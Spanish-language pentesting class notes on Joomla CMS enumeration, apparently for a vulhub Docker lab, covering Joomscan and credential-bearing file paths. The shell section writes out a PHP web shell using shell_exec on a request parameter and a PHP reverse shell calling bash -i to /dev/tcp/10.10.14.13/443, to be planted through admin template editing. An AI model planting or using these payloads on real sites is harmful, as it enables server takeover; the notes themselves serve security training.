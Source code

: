 # Joomla 

Tags: #Joomla #CMS  

## Enumeración de gestores de contenido (CMS) – Joomla

Joomla es un sistema de gestión de contenidos (CMS) de código abierto que se utiliza para **crear sitios web** y **aplicaciones en línea**. Joomla es muy popular debido a su facilidad de uso y flexibilidad, lo que lo hace una opción popular para sitios web empresariales, gubernamentales y de organizaciones sin fines de lucro.

Joomla es altamente personalizable y cuenta con una gran cantidad de extensiones disponibles, lo que permite a los usuarios añadir funcionalidades adicionales a sus sitios web sin necesidad de conocimientos de programación avanzados. Joomla también cuenta con una comunidad activa de desarrolladores y usuarios que comparten sus conocimientos y recursos para mejorar el CMS.

A continuación, se comparte el enlace del proyecto que estaremos desplegando en Docker para auditar un Joomla:

-   **CVE-2015-8562**: [Joomla](https://github.com/vulhub/vulhub/tree/master/joomla/CVE-2015-8562)

Una de las herramientas que usamos en esta clase es **Joomscan**. Joomscan es una herramienta de línea de comandos diseñada específicamente para escanear sitios web que utilizan Joomla y buscar posibles vulnerabilidades y debilidades de seguridad.

Joomscan utiliza una variedad de técnicas de enumeración para identificar información sobre el sitio web de Joomla, como la versión de Joomla utilizada, los plugins y módulos instalados y los usuarios registrados en el sitio. También utiliza una base de datos de vulnerabilidades conocidas para buscar posibles vulnerabilidades en la instalación de Joomla.

Para utilizar Joomscan, primero debemos descargar la herramienta desde su sitio web oficial. A continuación se os proporciona el enlace al proyecto:

-   **Joomscan**: [https://github.com/OWASP/joomscan](https://github.com/OWASP/joomscan)

## Joomla Enumeración 

Esta herramienta además de enumerar un servidor Joomla, nos crea un reporte de las vulnerabilidades que encontró.
**/administrator** Es la ruta del panel de autenticacion de admin

```bash 
❯ perl joomscan.pl -u http://IP/             # Tool para enumerar Joomla

❯ https://github.com/joomla/joomla-cms       # Enumerar Joomla 
```

## Archivos y rutas típicas por consola

```python 
/var/www/html/         # Ruta donde se encuentra

/configuration.php     # Archivo principal con credenciales de la base de datos
/etc/mysql/my.cnf      # Configuración de MySQL. Puede revelar contraseñas o accesos alternos

/plugins               # Plugins (autenticación, contenido, etc.). Algunos desactualizados pueden ser explotables
/templates             # Temas. Algunos permiten subir archivos o editar código PHP directamente
```

## Obtener una Shell en Joomla

```bash 
1. Para obtener una shell en Joomla se puede lograr de la siguiente manera, editando un 'template' del panel de admin y escribir codigo 'PHP' para ejecutar comandos, debemos de saber la ruta en donde se encuentra instalado el template, ya que ahi podremos ejecutar comandos '?cmd=whoami'


Opcion 1. Editar cualquier template 

1. Seleccionar un template y darle en 'New File'. Despues, colocar un nombre, agregar la extension de 'PHP', dar en 'Create' y colocar el siguiente codigo:
	<?php 
		echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
		

o de la siguiente manera para obtener la ReverShell directa:

	<?php
	   system("bash -c 'bash -i >& /dev/tcp/10.10.14.13/443 0>&1'")


2. En la siguiente URL se puede acceder al archivo: 

❯ http://IP/templates/protostar/pwned.php?cmd=whoami       # Ejecutar un comando
	# URL-encodeamos la revershell y la colocamos en la url (bash -c 'bash -i >& /dev/tcp/IP/443 0>&1')
❯ http://IP/templates/protostar/pwned.php                  # Llamar al archivo para obtener la ReverShell 

Notas:
	1. Terminar el comando de PHP '?>'
```